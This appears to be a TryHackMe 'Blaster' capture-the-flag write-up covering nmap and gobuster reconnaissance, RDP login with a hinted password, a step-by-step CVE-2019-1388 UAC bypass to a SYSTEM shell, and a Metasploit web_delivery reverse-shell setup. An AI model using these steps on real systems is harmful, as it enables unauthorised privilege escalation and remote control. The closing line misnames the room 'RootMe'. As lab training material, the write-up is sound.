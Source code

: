 # Blaster
> 4lch3my | June 26, 2023
-------------------
#### A blast from the past!
#### [Room Link](https://tryhackme.com/room/blaster)

## Basic Enumeration 
  Deploy the machine with the Start Machine button, also either deploy your [Attack Box](https://tryhackme.com/access) OR Connect to [OpenVPN](https://tryhackme.com/access) and deploy your personal KALI machine.
<br>

Now is where the basics of recon comes into play. To start, I use [nmap] which is default option on the personal Kali install I have. We start with a basic command
  `nmap -sC -sV -A MACHINE_IP `
The -sC flag runs scripts against open ports as well to determine if there are external/common vulnerabilities that we can use outright. The -sV probes all open ports it finds to determine if we can get the service/version information. -A outputs in agressive mode, so we can follow along with the commands and enumeration.

```
Starting Nmap 7.60 ( https://nmap.org ) at 2023-06-25 22:55 BST
Nmap scan report for ip-MACHINE_IP.eu-west-1.compute.internal (10.10.143.114)
Host is up (0.00030s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2023-06-24T21:50:39
|_Not valid after:  2023-12-24T21:50:39
|_ssl-date: 2023-06-25T21:55:42+00:00; 0s from scanner time.
MAC Address: 02:AD:6F:28:86:81 (Unknown)
...
Network Distance: 1 hop
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap done: 1 IP address (1 host up) scanned in 28.98 seconds
```

#### Web Enumeration

On `port 80` we have a webserver running. Before we visit it, let us run a good old [GoBuster](https://www.kali.org/tools/gobuster/) website scan for login pages:
`gobuster dir -u http://10.10.238.240/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.143.114/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/06/25 23:04:02 Starting gobuster
===============================================================
/retro (Status: 301)
/Retro (Status: 301)
===============================================================
2023/06/25 23:04:30 Finished
===============================================================
```

Time to look at both of these pages. After a few minutes of looking at both of them I can safely say, they are an exact copy of each other, so I will be focusing on `/retro` on the rest of the writeup. The webpage presented is as seen below, a blog style website.

IMAGE: retro.PNG
![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/retro.PNG?raw=true)

It seems to be written in cronological order, so let's scroll to the bottom of the main page, and see who the author might be.

IMAGE: wade.PNG
![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/wade.PNG?raw=true)

Crawling through the posts, we can find one called `Ready Player One` where he is reffering to an issue with login. 

IMAGE: palyer_one.PNG
![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/palyer_one.PNG?raw=true)

Clicking the post and reading the comment section, we get a hint at what migth the users password be:

IMAGE: maybe_password.PNG
![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/maybe_password.PNG?raw=true)

With this info we can try to log in to the machine. Open RDP or Remmina on your host machine, use the provided settings to access it:

IMAGE: remmina.PNG
![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/remmina.PNG?raw=true)

And we have access! Read the user.txt on the Desktop for the first flag!

## Machine Enumeration 

We see another file on the desktop named `hhupd`. After  quick Google we can see a CVE is usually tested with this file: `CVE-2019-1388`. `CVE-2019-1388` exploits a part of the UAC `Windows Certificate Dialog` popup when a user has no access to an administrator file without a password. 
This is one of the easiest bypasses out there, so time to run over this as fast as possible.

On the Host machine, double-click/run the `hhupd` application. You will get prompted to provide an administrator password. 

IMAGE: admin.PNG
![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/admin.PNG?raw=true)

As we do not have one, we can try to exploit this. Click the `Show more details` option, then the `Show information about the publisher's certificate`.

IMAGE: certification.PNG
![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/certification.PNG?raw=true)

After this, click on the `Issued by` URL link, it may seem nothin is happening at first, but it will prompt a browser window to open (Internet Explorer in our case) in the background. Close the `Certification popup` (top right X), close the `User Account Control` popup (top right X), and the mentioned Internet Explorer Windows show be visible.

IMAGE: ie.PNG
![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/ie.PNG?raw=true)

Don't worry if you get the error: `"This page can't be displayed"`, as the machine has no internet access, this will never load, so you can ignore it!
In the next step, we need to "save the webpage to our machine". Hit `Control+S` to get the following prompt:

IMAGE: ie_2.PNG
![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/ie_2.PNG?raw=true)

Click `OK`, and save the file to the location: `C:\WINDOWS\system32\cmd.exe`

IMAGE: explorer.PNG
![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/explorer.PNG?raw=true)

Click `SAVE` and you will notice a CMD prompt windows appear. After writing the command `whoami`, we can see we are `nt authority\system` also knwon as `root`. 
To grab the admin flag, we can visit: `C:\Users\Administrator\Desktop` and get the flag

IMAGE: root_flag.PNG
![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/root_flag.PNG?raw=true)

## Reverse shell

Time to get a reverse shell from outside of this machine.
Start metasploit with the `msfconsole`. After loading in, we can select our exploit with: `exploit/multi/script/web_delivery`.
To see all target options, we can use the command `show targets`, then use `set target PSH` to select powershell for our use.
Then we can set the `lhost` to our exploiting machine and `lport` to something what we like, I usually use `1337` to be easily visible. 
Then we can set our payload to `set payload windows/meterpreter/reverse_http` to get a reverse http shell. And finally we can run our exploit against the target machine with `run -j`.
You will get a command specially crafted for you from the console, something like this:

IMAGE: metasploit.PNG
![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blaster/images/metasploit.PNG?raw=true)

Copy and Paste this to the Windows machine CMD terminal what we opened in the previous task. After you execute it, you will see a session created in your `metasploit console`. To make sure it worked, you can use the `sessions` command to list sessions. To use the session, use the command: `sessions SESSION_NUMBER`.

And there we go. We have a full terminal with `elevated priveledges`.

#### Thank you for checking out my writeup about the THM room: RootMe! If you are interested in other writeup's of mine or interested in some of my coding work, please feel free to look around my GitHub page! Happy hacking! - 4lch3my
